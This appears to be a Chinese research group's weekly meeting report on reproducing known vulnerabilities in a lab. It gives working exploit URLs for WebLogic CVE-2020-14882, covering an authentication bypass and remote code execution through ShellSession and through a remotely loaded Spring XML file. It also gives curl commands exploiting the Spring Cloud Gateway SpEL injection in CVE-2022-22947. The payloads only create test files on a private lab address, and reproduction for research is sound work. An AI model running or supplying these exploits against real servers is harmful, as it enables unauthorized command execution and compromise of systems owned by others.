


# 2025-12-04 组会周报

## TODO

- 手动多复现几个漏洞
- 人工标注（漏洞利用类型：复现）
- MCPtool+deepresearch（人的工作变成知识工具）
- vulhub仓库页面提取改到本地
- 自然语言描述漏洞

## 漏洞复现

### CVE-2023-27524


### CVE-2020-14882

首先测试权限绕过漏洞，访问以下URL，即可未授权访问到管理后台页面：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal
```
访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

这个漏洞的利用方式有两种:

1. 通过`com.tangosol.coherence.mvel2.sh.ShellSession`

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`touch /tmp/success1`已成功执行。

2. 通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

首先，构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上http://172.21.129.98:80/rce.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://172.21.129.98:80/rce.xml")
```
进入容器，可以发现`touch /tmp/success2`已成功执行。



### CVE-2022-22947

CVE-2022-22947 是由于 Spring Cloud Gateway 存在 SpEL 表达式注入漏洞，可通过构造恶意请求触发。

```bash
# 添加恶意路由（创建/tmp/flag文件）
curl "http://172.21.129.98:8080/actuator/gateway/routes/exploit" -X POST \
  -H "Content-Type: application/json" \
  -d '{
    "id": "exploit",
    "uri": "http://example.com",
    "predicates": ["Path=/exploit"],
    "filters": [
      {
        "name": "AddResponseHeader",
        "args": {
          "name": "CMD",
          "value": "#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/flag\")}"
        }
      }
    ]
  }'

# 刷新路由
curl "http://172.21.129.98:8080/actuator/gateway/refresh" -X POST

# 触发命令并查看文件是否存在
curl "http://172.21.129.98:8080/exploit"
docker exec $(docker ps -qf "name=spring") ls /tmp | grep flag
```

返回flag，说明命令执行成功


